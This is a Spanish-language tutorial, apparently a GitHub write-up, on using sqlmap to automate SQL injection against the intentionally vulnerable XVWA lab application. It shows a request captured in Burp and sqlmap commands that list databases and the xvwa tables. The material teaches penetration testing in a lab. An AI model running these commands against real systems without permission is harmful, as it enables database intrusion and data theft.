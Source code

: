 
Como habrás notado, la extracción manual de datos usando SQL Injection puede llevar mucho tiempo a veces y puede volverse extremadamente difícil cuando se trata de Blind SQL Injection. Aquí es donde podemos confiar en herramientas automatizadas que pueden acelerar el proceso de explotación. 


### Explotación automatizada usando sqlmap:

Ahora, analicemos cómo podemos usar sqlmap para automatizar la detección y explotación de SQL Injection. 

Interceptomos la información con Burp

![image](https://user-images.githubusercontent.com/50930193/171912538-f36f100c-d581-4605-bfd1-e6172ebc5347.png)
 
```
POST /xvwa/vulnerabilities/sqli/ HTTP/1.1
Host: 192.168.109.208
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://192.168.109.209
Connection: close
Referer: http://192.168.109.209/xvwa/vulnerabilities/sqli/
Upgrade-Insecure-Requests: 1
Cookie: PHPSESSID=5302d42dc8f560a0103a93c791292bf0

item=&search=1
```
Guarde esta solicitud en un archivo. En este caso, se guarda como **sqli.txt** y desde una nueva terminal ejecute lo siguiente.

```
sqlmap -r sqli.txt -p search –dbms=mysql --dbs
```
El comando anterior inicia sqlmap y toma sqli.txt como entrada. Estamos usando -p para especificar que la búsqueda es el lugar donde sqlmap debe inyectar sus cargas útiles. –dbs es el indicador que le dice a sqlmap que obtenga las bases de datos disponibles.

Después de ejecutar el comando, debería ver la siguiente ventana.
![image](https://user-images.githubusercontent.com/50930193/171914916-b57079ea-3cec-476a-9f3a-5979cf1fe52e.png)

Podemos ver los resultados de dicha búsqueda
![image](https://user-images.githubusercontent.com/50930193/171914970-50955c5d-73cf-482f-a995-796105153dd5.png)


La base de datos xvwa parece interesante. Entonces, elijamos la base de datos xvwa y busquemos tablas usando el siguiente comando.

```
sqlmap -r sqli.txt -p search –dbms=mysql -D xvwa --tables
```
